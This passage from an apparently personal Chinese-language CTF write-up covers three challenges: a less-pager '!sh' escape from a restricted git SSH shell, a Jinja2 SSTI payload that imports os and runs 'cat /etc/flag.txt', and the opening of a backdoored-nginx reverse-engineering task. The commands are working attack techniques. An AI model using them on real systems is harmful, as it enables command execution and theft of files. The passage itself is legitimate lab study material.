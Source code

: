 ~~这是我目前成功运行的唯一一条指令~~，输出页面让我想到了 `man` 指令，印象里帮助页面应该用 `less` 分页器打开，而 `less` 分页器 有 `!sh` 的操作可以打开子 `shell` 实现逃逸。查询得知需要在 SSH 连接时加上 `-t` 参数强制分配伪终端：

```shell
>ssh -t -i id_rsa git@xxx.xxx.xxx.xx -p 12345 "git upload-pack '--help'"
# 用 less 打开了帮助文档，输入 !sh 进入子 shell
$ cat /home/git/flag.txt
Trinity{GIT_5HE11_byp@ss_OOOOO_060524592cce19c7}$
```

获得了 Flag `Trinity{GIT_5HE11_byp@ss_OOOOO_060524592cce19c7}`



**Web02-逻辑鬼才** 没有进展，不懂 HTTPDigestAuth :(

### Web03-Hello Flask!

> 我学会的第一行代码就是`cout<<"Hello Flask!"<<endl;`
>
> flag 在 /etc/flag.txt
>
> 访问：`http://ip:port/?name=123`

先按照他说的访问一下 `http://ip:port/?name=123`，HTML 页面只有一句 *Hello 123*

STFW 了解到 Flask 是 Python 的 Web 框架，使用 Jinja 模板引擎，又不小心搜到了 [[SSTI注入 - Hello CTF](https://hello-ctf.com/hc-web/ssti/)](https://hello-ctf.com/hc-web/ssti/) 了解了一下

> *一般我们会在疑似的地方尝试插入简单的模板表达式，如 `{{7*7}}` `{{config}}`，看看是否能在页面上显示预期结果，以此确定是否有注入点。*

插入一下试试： `http://ip:port/?name={{7*7}}`，HTML 页面输出 *Hello 49*，看来有注入点

经过和 AI 的反复修改后得到了下面的模板：

```python
{{cycler.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/flag.txt').read()}}
# 从 cycler 对象开始（Jinja2模板的默认对象），通过 __init__ 获取初始化方法， __globals__ 获取全局命名空间， __builtins__ 获取内置函数， __import__('os') 导入os模块，最终调用 popen() 执行系统命令，read() 进行读取，输出在 HTML 页面上
```

得到 Flag `Trinity{ssti_is_Funnnnnny!422144319e480db2}`

---

### RE01-带后门的nginx

> **描述：** xx大学近日遭受一起 APT 攻击：黑客组织通过购买搜索引擎推广，将其精心伪造的 nginx 官网置于搜索结果首位。某运维人员因而下载了该网站上被植入后门的 nginx。服务上线后，黑客组织通过该后门长期隐蔽地从内网盗取信息。你的任务是通过逆向工程找到该后门的访问方式，并复现该后门来读取服务后台的 flag。
>
> 该后门为命令执行后门，并被符合要求的 HTTP 请求触发。找到触发方式后，你可以构造任意命令。
>
> 读取 flag 可以使用反弹 shell，也可以把 flag 文件拷贝到网站根目录。其中 flag 位于 /flag，nginx 网站位于 /nginx/html。

下发了一个 `nginx` 文件，使用 DIE 检测为 `ELF64` ，使用 Ghidra 进行逆向，分析逆向内容。

因为我不熟悉 nginx 反编译后的内容，偶然搜索了一下含 "flag" 的字符串

<img src="https://nopthon.github.io/image-20251006183255254.png" alt="image-20251006183255254" style="zoom: 80%;" />
